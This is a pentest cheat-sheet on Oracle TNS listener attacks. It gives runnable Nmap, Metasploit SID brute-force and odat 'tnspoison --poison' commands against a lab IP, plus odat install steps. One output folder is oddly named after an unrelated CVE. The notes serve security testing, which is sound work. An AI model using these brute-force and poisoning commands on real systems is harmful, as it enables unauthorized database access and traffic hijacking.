 # Oracle

* [https://xakep.ru/2015/04/07/195-oracle-db/](https://xakep.ru/2015/04/07/195-oracle-db/)
* [https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)
* [https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)
* [http://www.red-database-security.com/wp/oracle_cheat.pdf](http://www.red-database-security.com/wp/oracle_cheat.pdf)




## TNS Poison

* [http://www.joxeankoret.com/download/tnspoison.pdf](http://www.joxeankoret.com/download/tnspoison.pdf)

{% embed url="https://youtu.be/0IKltOBXiII" %}

Check with Nmap:

```
$ sudo wget https://gist.githubusercontent.com/JukArkadiy/3d6cff222d1b87e963e7/raw/fbe6fe17a9bca6ce839544b7afb2276fff061d46/oracle-tns-poison.nse -O /usr/share/nmap/scripts/oracle-tns-poison.nse
$ sudo nmap -v -n -Pn -sV --script oracle-tns-poison.nse -oA CVE-2014-0160/nmap/tns-poison -p1521 10.10.13.37
```

Brute SID with MSF:

```
msf > use auxiliary/scanner/oracle/sid_brute
msf > set RHOSTS file:oracle.txt
msf > set THREADS 25
msf > set VERBOSE false
msf > run
```

Brute SID with odat:

```
$ odat sidguesser -s 10.10.13.37 -p 1521
```

Exploit with odat:

* [https://github.com/quentinhardy/odat/wiki/tnspoison](https://github.com/quentinhardy/odat/wiki/tnspoison)

```
$ odat tnspoison -s 10.10.13.37 -d <SID> --test-module
$ odat tnspoison -s 10.10.13.37 -d <SID> --poison
```




## Tools



### odat

* [https://github.com/quentinhardy/odat/releases](https://github.com/quentinhardy/odat/releases/)
* [https://github.com/quentinhardy/odat#mind-map---odat--oracle-database-pentests](https://github.com/quentinhardy/odat#mind-map---odat--oracle-database-pentests)

Install manually (depreciated):

* [https://github.com/quentinhardy/odat#installation-optional-for-development-version](https://github.com/quentinhardy/odat#installation-optional-for-development-version)

```
$ git clone https://github.com/quentinhardy/odat ~/tools/odat && cd ~/tools/odat
$ git submodule init && git submodule update
$ sudo apt install libaio1 python3-dev alien python3-pip
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-basic-19.6.0.0.0-1.x86_64.rpm
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-devel-19.6.0.0.0-1.x86_64.rpm
$ sudo alien --to-deb *.rpm
$ sudo dpkg -i *.deb
$ vi /etc/profile
...
export ORACLE_HOME=/usr/lib/oracle/19.6/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
...
$ pip3 install cx_Oracle
$ python3 odat.py -h
```
